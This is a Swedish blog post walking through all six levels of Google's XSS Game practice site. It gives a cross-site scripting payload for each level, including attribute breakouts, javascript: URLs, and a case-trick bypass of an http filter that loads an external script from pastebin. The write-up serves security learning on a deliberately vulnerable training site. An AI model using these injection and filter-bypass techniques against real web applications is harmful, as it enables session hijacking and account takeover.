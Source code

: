 ```yaml
---
layout: post
title: XSS 2 - Google XSS Game
date: 2015-12-10 19:41:45.000000000 -03:00
type: post
published: true
status: publish
categories: []
tags: []
meta:
  _publicize_pending: '1'
  _rest_api_published: '1'
  _rest_api_client_id: "-1"
  _publicize_job_id: '17733873085'
  original_post_id: '669'
  _wp_old_slug: '669'
  _oembed_21ffeb15e29dc7ce5018bb4548df07f6: "{{unknown}}"
  _oembed_260f0137fb304ca68aa9f8c82229456d: "{{unknown}}"
  _oembed_0e54617f9f4c46dcf103242a0a644ff6: "{{unknown}}"
  _oembed_c9fff206773cb92fbc2a37cf5549e386: "{{unknown}}"
  _oembed_45e1c901310d75a550e5c79104ae65a5: "{{unknown}}"
  _oembed_863d9937421ee45fab04ade3274bba8d: "{{unknown}}"
  _oembed_4ad5cb82558423a337350f1cc738946b: "{{unknown}}"
  _oembed_36ebc6730eee5793797580bb5e878f5b: "{{unknown}}"
author:
  login: tidlost
  email: philip.linghammar@protonmail.com
  display_name: tidlost
  first_name: ''
  last_name: ''
---
```


https://xss-game.appspot.com/level5
### Level 1

Här är level 1: https://xss-game.appspot.com/level1
Ja här var det ju inga konstigheter. En uppvärmningsnivå.
I sökfältet kör man:

```javascript
<script>alert("xss");</script>
```

### Level 2

Som vi kan se i det första inlägget. Det första kommentaren, så går det alltså att posta html i kommentarerna. Men script verkar vara filtrerat.
Så istället injectar vi en funktion i bilden.

```javascript
<img src="#" onclick="alert(3);">
```

### Level 3
Nu har det blivit lite svårare.
Vi kan alltså notera att när man klickar på en flik så kallar vi på funktionen `onclick(chooseTab("3))`. Om vi sedan kollar i den funktionen så ser vi att den hämtar ett nummer från adressfältet, med hjälp av dom-objektet window.location.hash. Hash representerar är # som finns i adressen. Detta innebär att vi kan injecta javascript direkt i adressfältet. Det som skrivs i adressfältet skickas sedan till en bildadress för att visa upp rätt bild.
Därför behöver vi bara injecta följande:

```javascript
https://xss-game.appspot.com/level3/frame#2' onclick="alert(2)"
```

Efter `#2` så avslutar vi attributet med ett `'`. Sen lägger vi till vår egen kod.

### Level 4

Den här var mycket svårare än de tidigare.
Där behövde vi först avsluta tidigare kommando, men för att det skulle funka så behöver vi använda url-encoding. Dom finns här: http://www.w3schools.com/tags/ref_urlencode.asp

```javascript
https://xss-game.appspot.com/level4/frame/?timer=')%3Bonload="alert(3)"//
```

### Level 5
Så I den här leveln så lär mig sig att det finns ett annat sätt att injecta javascript. Det är att injecta det i länkadresser.

```javascript
<a href="javascript:alert(2)">länk</a>
```

Så det är principen för den här leveln.

```javascript
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(2)
```

### Level 6

Den här nivån var lite svårare än de tidigare.
Här behöver man själv skapa en fil som ska executas. Så jag skapade filen i pastebin.
Det finns en regex som filterar ut http. Så att man inte kan skicka in externa skript. Men regexen är inte case-sensitive. Vilket gör att man helt enkelt bara kan skriva det med stora bokstäver.

```javascript
https://xss-game.appspot.com/level6/frame#hTTpS://pastebin.com/raw.php?i=xRxAiEVU
```

